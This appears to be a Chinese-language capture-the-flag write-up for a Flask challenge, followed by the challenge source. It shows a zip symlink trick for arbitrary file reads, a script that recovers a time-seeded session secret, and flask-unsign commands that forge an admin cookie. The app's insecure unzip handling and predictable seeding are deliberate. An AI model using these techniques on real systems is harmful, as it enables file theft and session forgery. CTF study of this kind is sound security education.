 tags:: [[CTF/Flask]], [[CTF/Zip]]

- # 题解
	- 题目源码解析:`app.py`
		- `/login`登陆接口
		- `/register`注册接口
		- `/upload`接收用户发送的zip文件，解压，并将解压后的路径告诉用户
		- `/uploads/<path>`读取zip解压后的文件并发给用户
		- `/flag`如果用户是admin即发送flag
		- 后端使用flask，其特点是将session签名保存在用户的cookie中，攻击者只需要想办法获取secret就可以伪造session
		- 将日志保存在`/tmp/server.log`中，可以通过日志判断启动时间
	- 源码解析:`config.py`
		- 会使用随机数生成secret用于签名session
		- 随机数种子用启动的时间以及`SECRET_OFFSET`的值生成
		- 播种公式：`random.seed(round((time.time() + SECRET_OFFSET) * 1000))`
			- `time.time()`时间戳，精确到毫秒
			- 种子：四舍五入的`(time.time() + SECRET_OFFSET) * 1000`
	- 任意文件读取：软链接攻击
	  id:: 63c3b277-fdc4-479f-974a-abc0cf1a9fc4
		- 在zip包内保存一个软链接，然后再让服务器读取这个软链接即可读取任意文件
		- 可以使用 [[CTF/Zip]] 读取任意文件
			- `ln -s /app/config.py file && zip -ry zip.zip file && base64 -w 0 zip.zip`
		- 无权读取flag文件
	- 主要思路：
		- 用任意文件读取漏洞读取`SECRET_OFFSET`和服务器启动时间
		  id:: 63c3b477-fe5e-4a86-8157-a27026da0934
		- 生成所有可能的secret
		  id:: 63c3b77c-b5b5-4079-a40f-2c005088f6f9
			- 因为服务器启动时间不够精确，只能这样
		- 用 [[CTF/Flask-Unsign]] 测试所有的secret, 发现只有一个可以解密签名
		  id:: 63c3b79c-6531-4b4c-833a-d2c4a0691519
		- 使用正确的secret伪造管理员身份拿到flag
		  id:: 63c3b85f-9bc5-4586-8bf1-318f562379d7
		- [[draws/2023-01-15-16-17-22.excalidraw]]
	- ((63c3b477-fe5e-4a86-8157-a27026da0934))
		- 使用 ((63c3b277-fdc4-479f-974a-abc0cf1a9fc4)) 读取`/app/config.py`和`/tmp/server.log`即可
	- ((63c3b77c-b5b5-4079-a40f-2c005088f6f9))
		- 代码：
			- ```python
			  from datetime import datetime
			  import random
			  
			  def timestamp_to_secret(timestamp):
			      random.seed(round((timestamp) * 1000))
			      return "".join([hex(random.randint(0, 15)) for x in range(32)]).replace("0x", "")
			  
			  SECRET_OFFSET = -67198624
			  
			  date_string = "2023-01-14 23:03:32 +0000"
			  dt_format = datetime.strptime(date_string, '%Y-%m-%d %H:%M:%S %z')
			  
			  timestamp = dt_format.timestamp()
			  timestamp += SECRET_OFFSET
			  
			  l = []
			  
			  for i in range(-2000, 2000):
			      l.append(timestamp_to_secret(timestamp + i / 1000))
			  
			  with open("test.txt", "w") as f:
			      f.writelines([line + "\n" for line in l])
			  ```
	- ((63c3b79c-6531-4b4c-833a-d2c4a0691519))
		- 运行`flask-unsign -u -w test.txt -c eyJhZG1pbiI6ZmFsc2UsInVpZCI6InRlc3R0ZXN0In0.Y8OwiQ.rKYwk2_A8u4XQqEyTJbVL5WcV64`
	- ((63c3b85f-9bc5-4586-8bf1-318f562379d7))
		- `flask-unsign -s --secret e897071bf3d5dc6ff7882fc0b64ece5c --cookie "{'admin': True, 'uid': 'testtest'}"`
- # 源码
	- `app.py`
		- ```python
		  import logging
		  import os
		  import re
		  import sqlite3
		  import subprocess
		  import uuid
		  import zipfile
		  
		  from flask import (Flask, flash, redirect, render_template, request, abort,
		                     send_from_directory, session)
		  from werkzeug.security import check_password_hash, generate_password_hash
		  
		  
		  app = Flask(__name__)
		  DATA_DIR = "/tmp/"
		  
		  # 设置最大文件大小
		  app.config['MAX_CONTENT_LENGTH'] = 2 * 1000 * 1000
		  
		  # 配置日志模块，将所有日志存储在/tmp/server.log中
		  LOG_HANDLER = logging.FileHandler(DATA_DIR + 'server.log')
		  LOG_HANDLER.setFormatter(logging.Formatter(fmt="[{levelname}] [{asctime}] {message}", style='{'))
		  logger = logging.getLogger("application")
		  logger.addHandler(LOG_HANDLER)
		  logger.propagate = False
		  for handler in logging.root.handlers[:]:
		      logging.root.removeHandler(handler)
		  logging.basicConfig(level=logging.WARNING, format='%(asctime)s %(levelname)s %(name)s %(threadName)s : %(message)s')
		  logging.getLogger().addHandler(logging.StreamHandler())
		  
		  # 设置秘密
		  app.config["SECRET_KEY"] = os.environ["SECRET_KEY"]
		  
		  @app.route("/")
		  def index():
		      return render_template("index.html")
		  
		  
		  @app.route("/login", methods=["GET", "POST"])
		  def login():
		      session.clear()
		  
		      if request.method == "GET":
		          return render_template("login.html")
		  
		      # 获取用户名和密码
		      username = request.form.get("username", "")
		      password = request.form.get("password", "")
		  
		      # 根据用户名查询密码，并和输入的密码对比
		      with sqlite3.connect(DATA_DIR + "database.db") as db:
		          res = db.cursor().execute("SELECT password, admin FROM users WHERE username=?", (username,))
		          user = res.fetchone()
		          if not user or not check_password_hash(user[0], password):
		              flash("Incorrect username/password", "danger")
		              return render_template("login.html")
		      
		      # 设置uid和admin
		      session["uid"] = username
		      session["admin"] = user[1]
		      return redirect("/upload")
		  
		  
		  @app.route("/register", methods=["GET", "POST"])
		  def register():
		      session.clear()
		  
		      if request.method == "GET":
		          return render_template("register.html")
		  
		      # 获取用户名和密码，用户名需要符合[a-zA-Z0-9_]{1,24}
		      username = request.form.get("username", "")
		      password = request.form.get("password", "")
		      if not username or not password or not re.fullmatch("[a-zA-Z0-9_]{1,24}", username):
		          flash("Invalid username/password", "danger")
		          return render_template("register.html")
		      
		      # 查询用户名是否重复，添加用户
		      with sqlite3.connect(DATA_DIR + "database.db") as db:
		          res = db.cursor().execute("SELECT username FROM users WHERE username=?", (username,))
		          if res.fetchone():
		              flash("That username is already registered", "danger")
		              return render_template("register.html")
		          
		          db.cursor().execute("INSERT INTO users (username, password) VALUES (?, ?)", (username, generate_password_hash(password)))
		          db.commit()
		      
		      session["uid"] = username
		      session["admin"] = False
		      return redirect("/upload")
		  
		  
		  @app.route("/upload", methods=["GET", "POST"])
		  def upload():
		      if not session.get("uid"):
		          return redirect("/login")
		      if request.method == "GET":
		          return render_template("upload.html")
		  
		      if "file" not in request.files:
		          flash("You didn't upload a file!", "danger")
		          return render_template("upload.html")
		      
		  
		      file = request.files["file"]
		  
		      # 生成随机名字并保存
		      uuidpath = str(uuid.uuid4())
		      filename = f"{DATA_DIR}uploadraw/{uuidpath}.zip"
		      file.save(filename)
		  
		      # 解压缩
		      subprocess.call(["unzip", filename, "-d", f"{DATA_DIR}uploads/{uuidpath}"])
		  
		      # 通知
		      flash(f'Your unique ID is <a href="/uploads/{uuidpath}">{uuidpath}</a>!', "success")
		      logger.info(f"User {session.get('uid')} uploaded file {uuidpath}")
		      return redirect("/upload")
		  
		  
		  @app.route("/uploads/<path:path>")
		  def uploads(path):
		      try:
		          return send_from_directory(DATA_DIR + "uploads", path)
		      except PermissionError:
		          abort(404)
		  
		  
		  @app.route("/flag")
		  def flag():
		      if not session.get("admin"):
		          return "Unauthorized!"
		      return subprocess.run("./flag", shell=True, stdout=subprocess.PIPE).stdout.decode("utf-8")
		  ```
	- `config.py`
		- ```python
		  import random
		  import os
		  import time
		  
		  SECRET_OFFSET = 0 # REDACTED
		  random.seed(round((time.time() + SECRET_OFFSET) * 1000))
		  os.environ["SECRET_KEY"] = "".join([hex(random.randint(0, 15)) for x in range(32)]).replace("0x", "")
		  ```